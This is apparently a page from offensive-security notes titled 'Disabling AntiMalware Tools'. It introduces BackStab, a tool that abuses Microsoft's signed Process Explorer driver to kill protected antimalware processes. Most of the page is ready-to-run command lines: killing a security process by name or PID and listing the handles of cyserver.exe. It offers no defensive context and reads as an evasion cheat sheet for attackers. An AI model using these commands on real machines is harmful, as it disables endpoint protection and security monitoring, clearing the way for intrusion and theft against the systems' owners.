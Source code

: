 # 📵 Disabling AntiMalware Tools

## BackStab

<figure><img src="https://media3.giphy.com/media/xT8qBifoOp1L3cPoeQ/giphy.gif?cid=ecf05e47tz6ig7gg1f47lbbuuhe583s2e31jwlmw63e49d5p&#x26;ep=v1_gifs_search&#x26;rid=giphy.gif&#x26;ct=g" alt="" width="188"><figcaption></figcaption></figure>

{% hint style="info" %}
_Backstab is a tool capable of killing antimalware protected processes by leveraging sysinternals’ Process Explorer (ProcExp) driver, which is signed by Microsoft._
{% endhint %}

{% embed url="https://github.com/Yaxser/Backstab" %}

```powershell
# Windows
# kill process name
backstab.exe -n $name -k

# kill process by PID
backstab.exe -p $pid -k

# list all handles of cyserver
backstab.exe -n cyserver.exe -l		
```

